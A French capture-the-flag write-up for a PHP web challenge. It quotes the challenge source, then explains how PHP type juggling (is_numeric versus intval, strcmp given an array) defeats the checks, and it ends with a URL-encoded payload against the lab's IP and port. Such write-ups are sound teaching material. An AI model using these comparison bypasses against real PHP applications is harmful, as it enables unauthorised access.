 # Breizh Kartenn

## Introduction

**Catégorie** : web

**Points** : 150

**Flager** : PLT

La description de l'épreuve contient une ip avec un port. En chargeant la page on récupère un code php.

```zsh
curl 148.60.87.243 44815
```

```php
<?php

    show_source(__FILE__);
    $i01=0;$i02=0;$i03=0;
    $a=(array)json_decode(@$_GET['kaaris']);
    if(is_array($a)){
       is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
       if(@$a["Jte_laisse_tirer_sur_ma_chicha"]){
           ($a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
       }
       if(is_array(@$a["et_tu_veux_plus_me_rendre_le_tuyau"])){
           if(count($a["et_tu_veux_plus_me_rendre_le_tuyau"])!==7 OR !is_array($a["et_tu_veux_plus_me_rendre_le_tuyau"][0])) die("brrrrah");
           $pos = array_search("Diarabi, diarabi, diarabi, ma chérie", $a["a2"]);
           $pos===false?die("brrrrah"):NULL;
           foreach($a["et_tu_veux_plus_me_rendre_le_tuyau"] as $key=>$val){
               $val==="Diarabi, diarabi, diarabi, ma chérie"?die("brrrrah"):NULL;
           }
           $i02=1;
       }
    }
    $c=@$_GET['meufs'];
    $d=@$_GET['seufs'];
    if(@$c[1]){
       if(!strcmp($c[1],$d) && $c[1]!==$d){
           eregi("3|1|c",$d.$c[0])?die("brrrrah"):NULL;
           strpos(($c[0].$d), "Diarabi, diarabi, faut qu'on fasse du wari")?$i03=1:NULL;
       }
    }
    if($i01 && $i02 && $i03){
       include "flag.php";
       echo $FL4G;
    }

?>
```

## Analyse

La première ligne `show_source(__FILE__);` permet de comprendre que le code php affiché correspond au script PHP qui s'execute sur le serveur.

A la fin du fichier on peut voir qu'il faut passer les variables `$i01`, `$i02` et `$i03` à *true* pour que le fichier `flag.php` s'execute et affiche le *flag*.

```
if($i01 && $i02 && $i03){
       include "flag.php";
       echo $FL4G;
}
```

En analysant le code on remarque des lignes qui semblent en contradiction :

```
is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
...
$a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
```

Ici la valeur de `$a["Jte_laisse_tirer_sur_ma_chicha"]` ne doit pas être numérique mais doit pourtant être supérieure à `2017`. [Chinoiserie](http://www.larousse.fr/dictionnaires/francais/chinoiserie/15393)
 vous avez dit ?

On imagine donc qu'il faut abuser la façon dont PHP interprète les différents types. On appelle cette pratique "manipulation de types" ou plus communément *type juggling*. 

Voici un document qui détail bien les différents techniques de *type juggling* :

 - [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf)

### Environnement

 - Langage : PHP 7.1
 - IDE : Brackets (MacOS) + extension [PHP Debugger](https://github.com/spocke/php-debugger)
 - Debuger : Xdebug
 - Serveur : Nginx

### Xdebug

Dans ce genre d'épreuve il est important de passer un peu de temps à configurer un debuger avant de se lancer. Cela évite d'avancer en aveugle et vous donne une maitrise totale de l'execution. 

`xdebug` est un *debugger* PHP. Pour vérifier que xdebug est bien installé : `php -m | grep xdebug`

Pour lancer le script en mode debug depuis la ligne de commande :
```zsh
php -d xdebug.idekey=xdebug -d xdebug.profiler_enable=On \
-d xdebug.remote_enable=On -d xdebug.remote_autostart=On \
-d xdebug.autostart=On -d xdebug.remote_port=9000
```

Il est également possible de configurer un envionemment web local avec Apache ou Nginx. Il faut alors activier et paramètrer `xdebug` dans les fichiers de configuration PHP.

Comme client Xdebug sur MacOS je conseil l'éditeur de texte Brackets avec l'extention [PHP Debugger](https://github.com/spocke/php-debugger).


![chinoiseries-xdebug-brackets.png](./chinoiseries-xdebug-brackets.png)

## Solution

### $i01 et $i02

Les paramètres pour manipuler `$i01` et `$i02` viennent de `$_GET['kaaris']` qui doit contenir un JSON.

La difficulté pour avoir la variable `$i01` à `true` est qu'il faut valider deux conditions entagonistes :

``` php
is_numeric(@$a["Jte_laisse_tirer_sur_ma_chicha"])?die("brrrrah"):NULL;
```

```
$a["Jte_laisse_tirer_sur_ma_chicha"]>2017)?$i01=1:NULL;
```

Une valeur possible est `"2018m"`.

`is_numeric`considère que `"2018m"` n'est pas une valuer numérique.
>http://php.net/manual/fr/function.is-numeric.php
> 
>Détermine si la variable donnée est de type numérique. Les chaînes numériques sont composées optionnellement de signes, de n'importe quel nombre de chiffres, optionnellement d'une partie décimale ainsi qu'une partie exponentielle. +0123.45e6 est une valeur numérique valide. Les notations hexadécimale (i.e. 0xf4c3b00c) et binaire (i.e. 0b10100111001) ne sont pas autorisées.

Quand une chaine de caractère est comparé à un type numérique, PHP utilise la fonction `intval` pour évaluer la chaine. Or `intval("2018m")` retourne `2018`

(voir [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf) page 8 et 9)

Pas de difficulté particulière ensuite.

### $i03

La difficulté pour avoir $i03 à `true` est de passer cette condition
`if(!strcmp($c[1],$d) && $c[1]!==$d)`

Ma première approche fut d'utiliser `$c[1]=1` et `$d='1'` se qui marchaint bien. Sauf que `1` passé en paramètre dans l'url ne donne pas un entier mais un string. Donc on se retrouve finalement avec `$c[1]='1'` et `$d='1'`.

Pour passer cette condition il faut que `$d` soit un tableau : `http://148.60.87.243:44815/?seufs[]=&...`

(voir [PHPMagicTricks-TypeJuggling.pdf](PHPMagicTricks-TypeJuggling.pdf) page 35). 

### Payload finale

Il faut que les paramètres soient bien url-encodés.

```
http://148.60.87.243:44815/?seufs[]=&meufs[]=_Diarabi%2c%20diarabi%2c%20faut%20qu%27on%20fasse%20du%20wari&meufs[]=a&kaaris={%22Jte_laisse_tirer_sur_ma_chicha%22%3a%222018a%22%2c%22et_tu_veux_plus_me_rendre_le_tuyau%22%3a[[]%2c2%2c3%2c4%2c5%2c6%2c7]}
```

## Bilan

 - Peux d'inconnes dans cette épreuve car le code source est visible.
 - Necessite d'avoir une environnement PHP avec un serveur local ou de bien connaitre les finesses du *type juggling* PHP.


